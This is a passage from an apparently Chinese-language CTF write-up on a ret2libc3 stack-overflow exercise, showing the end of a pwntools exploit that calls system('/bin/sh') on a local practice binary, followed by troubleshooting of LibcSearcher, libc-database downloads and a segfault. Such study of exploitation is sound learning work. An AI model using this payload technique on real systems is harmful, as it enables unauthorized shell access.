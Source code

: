 ```
//缓冲区少了8个字节，因为我们虽然是返回到了main函数，但是在main函数之前有一些初始化的函数，这些函数改变了栈，第二次调用main函数的时候缺少了栈初始化的过程，如果我们返回到_start那么偏移就是一样的。
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
p.sendline(payload)


p.interactive()

```

如果出现下面这种情况：

```
dililearngent@dililearngent-virtual-machine:~/Desktop/pwn1$ python ret2libc31.py
[+] Starting local process './ret2libc3': pid 76172
[*] '/home/dililearngent/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
No matched libc, please add more libc or try others
[*] Stopped process './ret2libc3' (pid 76172)
```

解决办法：

libc数据库中没有对应的版本，下载https://github.com/niklasb/libc-database，然后替换libc-database目录

根据命令下载不同发行版本的libc

```
$ ./get  # List categories
$ ./get ubuntu debian  # Download Ubuntu's and Debian's libc, old default behavior
$ ./get all  # Download all categories. Can take a while!
```

如果遇到这种情况：

```
root@dililearngent-virtual-machine:/LibcSearcher/libc-database# ./get ubuntu
Will download or update for:
Requirements for download or update 'ubuntu' are not met. Please, refer to README.md for installation instructions
```

就查看README中的Requirements，我是缺少了这个zstd，安装好所有的即可

```
dililearngent@dililearngent-virtual-machine:/$ zstd
The program 'zstd' is currently not installed. You can install it by typing:
sudo apt install zstd
```

继续运行脚本，可能会找到多个脚本，手动选择一个，接着可能出现这种情况：

```
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[*] Process './ret2libc3' stopped with exit code -11 (SIGSEGV) (pid 20849)
[*] Got EOF while sending in interactive
```

